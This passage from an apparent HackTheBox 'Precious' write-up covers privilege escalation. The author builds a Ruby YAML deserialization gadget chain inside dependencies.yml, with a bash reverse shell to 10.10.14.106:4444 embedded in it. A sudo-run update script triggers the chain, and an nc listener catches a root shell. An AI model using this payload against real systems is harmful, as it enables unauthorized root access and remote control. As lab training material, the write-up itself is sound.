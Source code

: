     henry@precious:~$ find / -name "dependencies.yml" 2>/dev/null
    /opt/sample/dependencies.yml
    henry@precious:~$ cat /opt/sample/dependencies.yml
    yaml: 0.1.1
    pdfkit: 0.8.6

The first approach, looking for file replacements and user path overrides to trick the script, leads me to no particular idea. However, the **yaml** is a structure that can also contain information related to the execution of code or command, references to files, and so on. I tried to take advantage of the **Load** command of the **YAML** package used in the script. Searching on the Internet, I found something interesting.

[Blind Remote Code Execution through YAML Deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/?ref=secjuice.com)

Perfect, I prepare my payload...

    henry@precious:/tmp/rbe$ cat dependencies.yml 
    ---
    - !ruby/object:Gem::Installer
        i: x
    - !ruby/object:Gem::SpecFetcher
        i: y
    - !ruby/object:Gem::Requirement
      requirements:
        !ruby/object:Gem::Package::TarReader
        io: &1 !ruby/object:Net::BufferedIO
          io: &1 !ruby/object:Gem::Package::TarReader::Entry
             read: 0
             header: "abc"
          debug_output: &1 !ruby/object:Net::WriteAdapter
             socket: &1 !ruby/object:Gem::RequestSet
                 sets: !ruby/object:Net::WriteAdapter
                     socket: !ruby/module 'Kernel'
                     method_id: :system
                 git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.106/4444 0>&1'"
             method_id: :resolve

I ran the script as administrator...

    henry@precious:/tmp/rbe$ sudo /usr/bin/ruby /opt/update_dependencies.rb
    sh: 1: reading: not found

...and here is my root shell, which allows me to retrieve the root flag.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [10.10.14.106] from (UNKNOWN) [10.10.11.189] 54934
    root@precious:/tmp/rbe# whoami
    whoami
    root
    root@precious:/tmp/rbe# cat /root/root.txt
    cat /root/root.txt
    5******************************2
    root@precious:/tmp/rbe# ^C
